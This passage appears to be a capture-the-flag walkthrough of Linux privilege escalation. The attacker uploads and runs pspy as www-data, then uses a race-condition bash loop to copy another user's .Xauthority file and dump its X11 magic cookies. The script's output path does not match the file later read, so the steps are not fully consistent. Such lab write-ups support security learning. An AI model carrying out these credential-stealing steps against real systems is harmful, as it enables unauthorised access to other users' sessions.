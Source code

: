 [Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

[**#CAP_DAC_OVERRIDE**]

**This mean that you can bypass write permission checks on any file, so you can write any file.**

There are a lot of files you can **overwrite to escalate privileges,** [**you can get ideas from here**](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/payloads-to-execute#overwriting-a-file-to-escalate-privileges).

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`upload /home/kali/tools/pspy64 /var/www/html/pspy64`:
```
/var/www/html/pspy64 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 3.1/3.1 MB • 2.8 MB/s • 0:00:00
[17:05:00] uploaded 3.10MiB in 1.48 seconds ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`chmod u+x ./pspy64`

`./pspy64 > ./pspy64_output.txt`

`cat -n ./pspy64_output.txt`:
```
[...]

   275  2024/10/09 17:17:02 CMD: UID=1000  PID=50518  | /bin/bash /home/vanity/backup ←

[...]
```

`vim ./race.sh`:
```sh
#!/bin/bash  

while true; do 
	cp /backup/.Xauthority /tmp/magic_cookie.txt 2> /dev/null
	[[ $? -eq 0 ]] && echo "OK" && exit 0 
done
```

`chmod u+x ./race.sh`

`./race.sh`:
```
OK ←
```

`file /tmp/.Xauthority`:
```
/tmp/.Xauthority: X11 Xauthority data ←
```

`cat /tmp/.Xauthority`:
```
debian11MIT-MAGIC-COOKIE-1�>7�
�EXJ[���f�debian0MIT-MAGIC-COOKIE-1������m�lJ���

jo2024.hmv0MIT-MAGIC-COOKIE-1!x����I�����޾
```
